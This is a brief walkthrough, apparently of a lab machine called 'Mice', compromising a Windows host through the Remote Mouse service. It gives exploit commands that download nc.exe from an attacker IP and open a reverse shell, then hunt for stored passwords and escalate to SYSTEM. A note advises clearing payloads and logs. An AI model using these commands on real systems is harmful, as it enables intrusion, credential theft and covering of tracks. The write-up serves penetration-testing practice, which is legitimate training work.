 # 🏴 Mice (Windows)

## 🧠 Initial Foothold

- Performed an initial port scan and discovered port 1978/tcp open, running Emote Remote Mouse.

- Searched for a relevant exploit and found:  
  [RemoteMouse-3.008-Exploit](https://github.com/p0dalirius/RemoteMouse-3.008-Exploit)

- Cloned the repository and executed:
  ```bash
  python3 RemoteMouse-3.008-Exploit.py --target-ip 192.168.216.199 --cmd 'powershell -c "curl http://192.168.45.179/nc.exe -o C:\Windows\Temp\nc.exe"'
  python3 RemoteMouse-3.008-Exploit.py --target-ip 192.168.216.199 --cmd 'C:\Windows\Temp\nc.exe 192.168.45.179 80 -e cmd'
  ```

- Successfully gained a reverse shell on port 80.

---

## 🚀 Privilege Escalation

- Searched for passwords within local configuration files using:
  ```cmd
  findstr /SIM /C:"pass" *.ini *.cfg *.config *.xml
  ```

- Found a base64-encoded password, decoded it, and used the credentials to connect via RDP.

- When encountering errors, ran the following commands in PowerShell to restart the Explorer process:
  ```powershell
  Stop-Process -Name explorer
  Start-Process explorer
  ```

- Followed additional steps as outlined in exploit:  
  [50047.txt](https://www.exploit-db.com/exploits/50047)

- Successfully obtained SYSTEM-level access.

---

🧼 **Post-Exploitation Note:**  
Consider clearing downloaded payloads and logs if necessary.

> ⚠️ This walkthrough is for educational purposes only.
